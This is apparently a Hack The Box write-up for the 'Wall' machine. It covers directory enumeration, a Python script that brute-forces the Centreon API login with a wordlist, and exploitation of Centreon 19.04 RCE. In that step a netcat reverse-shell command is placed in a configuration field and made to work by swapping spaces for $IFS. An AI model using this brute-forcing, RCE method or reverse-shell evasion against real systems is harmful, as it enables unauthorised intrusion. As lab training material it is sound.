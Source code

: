 ```yaml
---
title: Wall HTB
date: '2020-01-31 20:55:00'
categories: ["htb"]
---
```


# Wall 🧱

From port scanning two ports are only available `22,80`.

All I see in this port is the default page of apache2. So I fire up gobuster at this time.

`gobuster dir -w /usr/share/wordlists/directory-list-2.3-medium.txt -u http://10.10.10.157/ -o port80`, which gives me back:

```
/monitoring (401)
```
visiting /monitoring gives me a basic auth form, but I don't know any logins,atm. So I run another gobuster but this time with .php extension.

`gobuster dir -w /usr/share/wordlists/directory-list-2.3-medium.txt -u http://10.10.10.157/ -o port80withphp -x .php` gives me back:

```
aa.php
/monitoring
panel.php
```
 - aa.php === *1*
 - panel.php === *just a test for php file !*

But again nothing of interest. I tried to brute force the /monitoring directory by using hydra even tho I didn't knew a single username, but again i failed to find something. 

I open the request to /monitoring using burp and change the request from `GET /monitoring/` to `POST /monitoring/` I get a redirect which sends me to `/monitoring/'/centreon'`. 

We have a new directory: `/centreon/`

I search and find that I can use their api to send authentication requests, and at this time I create a script to do that for me:

```
import requests

URL = "http://10.10.10.157/centreon/api/index.php?action=authenticate"

with open('/home/fuxsocy/.local/share/Trash/files/rockyou.txt', 'r') as f:
	for i in f:
		i = i.strip('\n')
		PARAMS = {"username":"Admin", "password": i}
		r = requests.post(url = URL, data=PARAMS)
		if "Bad" in r.text:
			pass
		else:
			print("Found password: %s" % i)

``` 
The password is `password1`(Don't ever use this as password PLEASE 😂).

I login using that password on the interface. Looking at the version I found out version *19.04* has a rce.

I follow this post https://shells.systems/centreon-v19-04-remote-code-execution-cve-2019-13024/.

Basically what you have to do to gain rce is to visit `http://10.10.10.157/centreon/main.php?p=60901&o=c&server_id=1` and at the *Monitoring Engine Binary* put a command, like you do on a terminal and then visit `10.10.10.157/centreon/include/configuration/configGenerate/xml/generateFiles.php` to get rce. 

But putting nc -e /bin/bash {IP}, does not work. After trying I got it working by putting `{$IFS}` instead of a space.

*The Internal Field Separator (IFS) that is used for word splitting after expansion and to split lines into words with the read builtin command.*



# Root

there is a screen vulnerability!